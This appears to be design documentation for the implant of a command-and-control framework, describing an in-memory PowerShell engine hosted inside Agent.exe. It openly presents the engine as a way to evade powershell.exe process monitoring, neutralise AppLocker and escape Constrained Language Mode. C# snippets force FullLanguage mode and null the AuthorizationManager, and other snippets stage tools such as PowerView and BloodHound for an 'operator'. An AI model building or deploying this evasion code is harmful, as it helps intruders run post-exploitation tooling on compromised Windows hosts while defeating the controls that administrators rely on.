

# PowerShell Engine

## Overview

The PowerShell execution engine provides in-memory execution of arbitrary PowerShell scripts and commands without executing `powershell.exe`. 

By hosting an unmanaged `Runspace` directly inside the Agent process (`Agent.exe`), the engine bypasses process-monitoring rules (e.g., detecting `powershell.exe` execution), neutralizes AppLocker script enforcement, and unlocks Full Language Mode.

---

## Architecture: Unmanaged Runspace & Custom PSHost



---

## Class Implementation Details: `PowerShellRunner`

### 1. Initialization & CLM Bypass
```csharp
public PowerShellRunner()
{
    _host = new CustomPSHost();

    var state = InitialSessionState.CreateDefault();
    state.AuthorizationManager = null;
    state.LanguageMode = PSLanguageMode.FullLanguage;

    _rs = RunspaceFactory.CreateRunspace(_host, state);
    _rs.Open();
    _pipeline = _rs.CreatePipeline();
}
```
- **Language Mode Override**: Explicitly configures `PSLanguageMode.FullLanguage`, enabling direct access to all .NET types, reflection, and low-level memory operations even on hosts with system-wide Constrained Language Mode (CLM) enabled.
- **Authorization Manager Nulling**: Sets `AuthorizationManager = null`, preventing execution policy restrictions (`Restricted`, `AllSigned`) from evaluating or blocking script text.

### 2. Custom Host: `CustomPSHost` & `CustomPSHostUserInterface`
Standard Windows PowerShell implementations tie their UI streams to a physical Windows Console window. Because the Agent runs headlessly (often in a service, injected thread, or windowless process):
- `CustomPSHost` provides host identification (`Name = "ConsoleHost"`).
- `CustomPSHostUserInterface` intercepts all output streams (`WriteLine`, `WriteErrorLine`, `WriteDebugLine`, `WriteWarningLine`, `WriteVerboseLine`) and aggregates them into an internal `StringBuilder`.
- **Nested Prompts Suppression**: Methods such as `EnterNestedPrompt()`, `Prompt()`, and `ReadLine()` throw `NotImplementedException`, preventing scripts from hanging indefinitely while awaiting interactive terminal input.

### 3. Script Staging & Command Invocation
- **`ImportScript(string script)`**: Adds script definitions (such as PowerView or BloodHound cmdlets) directly into the pipeline commands list:
  ```csharp
  _pipeline.Commands.AddScript(script);
  ```
- **`Invoke(string command)`**:
  ```csharp
  _pipeline.Commands.AddScript(command);
  _pipeline.Commands[0].MergeMyResults(PipelineResultTypes.Error, PipelineResultTypes.Output);
  _pipeline.Commands.Add("out-default");
  _pipeline.Invoke();
  return ((CustomPSHostUserInterface)_host.UI).Output;
  ```
  Merges error streams into output to guarantee that script syntax errors and exceptions are reported cleanly back to the operator.

---

## Script Staging Cache: `PowerShellImportCommand`

`PowerShellImportCommand` maintains a static script cache:
```csharp
public static string Script { get; set; }
```
When an operator issues `powershell-import <path>`, the entire script content is stored in memory. Every subsequent `powershell <cmd>` invocation imports this cached script before running the requested command, avoiding repetitive re-transmission across the network.

---

## Cross-References

- [Command Dispatch & Execution](./command-dispatch-and-execution.md)
- [WinAPI & Native Subsystem](./winapi-and-native-subsystem.md)
- [Functional In-Memory PowerShell Guide](../../Functional/Agent/in-memory-powershell.md)
